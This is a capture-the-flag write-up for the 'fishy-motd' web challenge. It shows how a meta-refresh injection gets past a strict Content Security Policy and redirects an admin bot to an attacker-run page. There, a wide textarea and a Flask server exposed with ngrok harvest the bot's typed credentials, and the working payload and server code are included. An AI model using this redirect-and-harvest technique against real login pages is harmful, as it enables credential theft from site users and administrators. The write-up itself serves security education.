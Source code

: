 
## fishy-motd (web, 263 points, 41 solves)

>I just created a tool to deploy messages to server admins in our company. They *love* clicking on them too!
`http://ctf.b01lers.com:5110`

## Overview

We're given a service that allow us to create custom [MOTDs](https://en.wikipedia.org/wiki/Message_of_the_day) which is going to be used in a login page.

We're also able to see the preview of the login page with our custom MOTD in it. Of course, we can deploy our MOTD and show it to admins.

This is a big hint, we can immediately tell that we need to do [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting).

## Analysis

Let's start by taking a look at the main page.

![main-page](imgs/main-page.png)

Let's try typing some HTML tags:

```html
<h1> yes </h1>
<img src="#" onerror="alert(1)">
<script> alert(1); </script>
<a href="https://example.com">Blablabla</a>
```

The login page will look like this:

![login-page](imgs/login-page-1.png)

Something is obviously wrong: our `alert` didn't pop. There's definitely something denying the execution of our javascript code... Something called [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 😭

>Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.

It's possible to specify the policy using HTTP headers or the `<meta>` tag.
We can see in the login page HTML the meta tag which contains the Content-Security-Policy:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```

In our case, the CSP consists of three directives:

- `default-src 'none'`, this directive serves as a fallback for the other CSP fetch directives.
- `style-src 'self'`, this directive specifies valid sources for stylesheets. In our case, the only valid source is `http://ctf.b01lers.com:5110`
- `form-action 'self'`, this directive restricts the URLs which can be used as the target of form submissions from a given context. In our case, the only valid target of form submissions is `http://ctf.b01lers.com:5110`.

So, here's what we're unable to do:

- Execute any javascript code
- Use custom CSS
- Submit data to external servers from the login page

But... How it's possible to redirect the admin without executing any javascript code?
Luckly for us, the `meta` tag allows us to do that.
Let's see if it works by typing the following line:

```html
<meta http-equiv="Refresh" content="0; url='https://google.com/'" />
```

![xss-video](videos/preview-xss-1.gif)

**YES!** Now we're able to redirect the admin anywhere we want.

## Let the games begin

Before doing 🐟fishy🐟 things, we need to understand what the admin does on the login page.
We can see inside the `index.js` file what the bot is going to do once on the login page.

```javascript
const adminBot = async (id) => {
    const browser = await puppeteer.launch({
        headless: true, // Uncomment below if the sandbox is causing issues
        // args: ['--no-sandbox', '--disable-setuid-sandbox', '--single-process']
    })
    const page = await browser.newPage();
    await page.setViewport({ width: 800, height: 600 });
    const url = `http://localhost:${port}/login?motd=${id}`;
    await page.goto(url);
    await page.mouse.click(10, 10);
    await new Promise(r => setTimeout(r, 1000));
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
    await new Promise(r => setTimeout(r, 1000));
    await browser.close();
    messages[id] = undefined;
    return { error: null };
}
```

Ok, let's break down what the bot does:

- Visits `http://localhost:${port}/login?motd=${id}` using the specified id
- Clicks to position (10, 10) (maybe it will click on the MOTD, idk)
- Waits for one second
- Checks if the current page is the same as the page with the MOTD
- Waits for another five seconds
- Clicks in the position of the username field and writes the admin's username
- Clicks in the position of the password field and writes the admin's password
- Waits for one second

Luckly for us, the `meta` tag allows us to specify the redirect delay. Our final MOTD will look like this:

```html
<meta http-equiv="Refresh" content="1.1; url='https://my.webhook/'" />
```

Where `1.1` indicates the redirect delay (in seconds).

## Solution

Now let's create our server, which will collect the admin credentials. The dumbest way to accomplish this, is using a really wide textarea, and then redirect the admin after a bunch of seconds.

Our main page will look like this:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>lol</title>
    </head>
    <body>
        <form action="/lol" method="POST">
            <textarea name="credentials" style="min-width: 2000px; min-height: 1000px;"> </textarea>
        </form>
        <script>
            setTimeout(function () {
                document.getElementsByTagName("form")[0].submit();
            }, 4500);
        </script>
    </body>
</html>
```

We're going to use the Flask library, which will handle the POST requests for us.

```python
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route("/lol", methods=["POST"])
def lol():
    credentials = request.form.get("credentials")
    print(f"{credentials = }")

    return "lol"


@app.route("/")
def index():
    return render_template("index.html")


app.run("0.0.0.0", 1337)
```

We can use [ngrok](https://ngrok.com/) to make our site accessible to everyone.

Finally, we can send our payload to the admin.

![final-xss-result](imgs/final-xss-result.png)

We can distinguish the username from the password easily, the correct credentials will be:

- username: **n01_5y54dm1n**
- password: **7zzHuXRAp)uj@(qO@Zi0**

If we use these credentials to log in, we get the flag!

`flag: bctf{ph15h1ng_reel_w1th_0n3_e}`

